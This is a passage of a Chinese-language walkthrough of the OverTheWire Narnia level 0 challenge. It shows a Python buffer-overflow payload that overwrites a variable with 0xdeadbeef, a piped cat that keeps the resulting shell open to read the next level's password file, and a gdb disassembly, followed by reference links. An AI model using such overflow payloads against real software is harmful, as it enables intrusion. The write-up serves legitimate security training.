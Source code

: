 ### Step 3:制作利用

现在我们知道`val`在第20字节开始溢出. 所有我们需要做的是在过最后的四个字节添加```deadbeef```.

但是,我们需要用十六进制形式写这个:

```sh
narnia0@melinda:/narnia$ python -c'print "A"*20 + "\xef\xbe\xad\xde"'
AAAAAAAAAAAAAAAAAAAAﾭ
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"') | ./narnia0 Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
```

哇, 漏洞利用开始工作了!


### Step 4: 获得Shell


我们可以获得我们的shell,但当程序执行结束时它关闭太快.

我们需要创建一个方法在我们失去对shell的控制之前来阅读密码. 一个好方法是流水输入一些等待输入的命令,例如```tail```或是```cat```.

事实证明,实际上只有```cat```能打印输出:

```sh
narnia0@melinda:/narnia$ (python -c'print "A"*20 + "\xef\xbe\xad\xde"'; cat) | /narnia/narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
```
完成!我们已经完成了level 0!


### Step 5: 调试!
尽管这个问题很容易,所以我们不需要调试任何东西,当挑战很容易时了解程序是一个很好的步骤:

```sh
narnia0@melinda:/narnia$ gdb ./narnia0
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484c4 <+0>: push   ebp
   0x080484c5 <+1>: mov    ebp,esp
   0x080484c7 <+3>: and    esp,0xfffffff0
   0x080484ca <+6>: sub    esp,0x30
   0x080484cd <+9>: mov    DWORD PTR [esp+0x2c],0x41414141
   0x080484d5 <+17>:  mov    DWORD PTR [esp],0x8048640
   0x080484dc <+24>:  call   0x80483b0 <puts@plt>
   0x080484e1 <+29>:  mov    eax,0x8048673
   0x080484e6 <+34>:  mov    DWORD PTR [esp],eax
   0x080484e9 <+37>:  call   0x80483a0 <printf@plt>
   0x080484ee <+42>:  mov    eax,0x8048689
   0x080484f3 <+47>:  lea    edx,[esp+0x18]
   0x080484f7 <+51>:  mov    DWORD PTR [esp+0x4],edx
   0x080484fb <+55>:  mov    DWORD PTR [esp],eax
   0x080484fe <+58>:  call   0x8048400 <__isoc99_scanf@plt>
   0x08048503 <+63>:  mov    eax,0x804868e
   0x08048508 <+68>:  lea    edx,[esp+0x18]
   0x0804850c <+72>:  mov    DWORD PTR [esp+0x4],edx
(...)
End of assembler dump.
```
让我们把断点放在```scanf```之后:


[未经边界检查的输入]: http://en.wikipedia.org/wiki/Bounds_checking
[缓冲区溢出]: http://en.wikipedia.org/wiki/Buffer_overflow
[进程的虚拟内存]: http://en.wikipedia.org/wiki/Virtual_memory
[物理内存]: http://en.wikipedia.org/wiki/Computer_memory
[虚拟内存空间]: http://en.wikipedia.org/wiki/Virtual_memory
[堆栈的方向]: https://stackoverflow.com/questions/664744/what-is-the-direction-of-stack-growth-in-most-modern-systems
[内存段异常]: http://en.wikipedia.org/wiki/Segmentation_fault
[堆]: http://en.wikipedia.org/wiki/Heap_(data_structure)
[Python & Algorithms]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/blob/master/book/book_second_edition.pdf
[这里是一些例子]: https://github.com/bt3gl/Python-and-Algorithms-and-Data-Structures/tree/master/src/abstract_structures/Stacks
[WarGames]: http://overthewire.org/wargames
[Narnia]: http://overthewire.org/wargames/narnia
[Aleph One]: http://en.wikipedia.org/wiki/Elias_Levy
[Phrack magazine]: http://www.phrack.org/
[Smashing the Stack for Fun or Profit]: http://insecure.org/stf/smashStack.html
[Peter Jay Salzman]: http://www.dirac.org/linux/gdb/
[nice Assembly guide]: http://www.drpaulcarter.com/pcasm/
[run a binary and read its C code]: http://www.thegeekstuff.com/2011/10/c-program-to-an-executable/
[little-endian]: http://en.wikipedia.org/wiki/Endianness
[x86]: http://en.wikipedia.org/wiki/X86
[ASCII]: http://en.wikipedia.org/wiki/ASCII
[hexadecimal representation]: http://en.wikipedia.org/wiki/Hexadecimal
[Shellshock guide]: http://bt3gl.github.io/understanding-the-shellshock-vulnerability.html
[very introductory guide]: http://www.thegeekstuff.com/2010/03/debug-c-program-using-gdb/
[comprehensive guide]: http://www.dirac.org/linux/gdb/
[0xdeadbeef]: http://en.wikipedia.org/wiki/Hexspeak
[Appendix A]: http://insecure.org/stf/smashStack.html
[/dev/null]: http://en.wikipedia.org/wiki/Null_device
[ASLR]: http://en.wikipedia.org/wiki/Address_space_layout_randomization
[NOPs]: http://en.wikipedia.org/wiki/NOP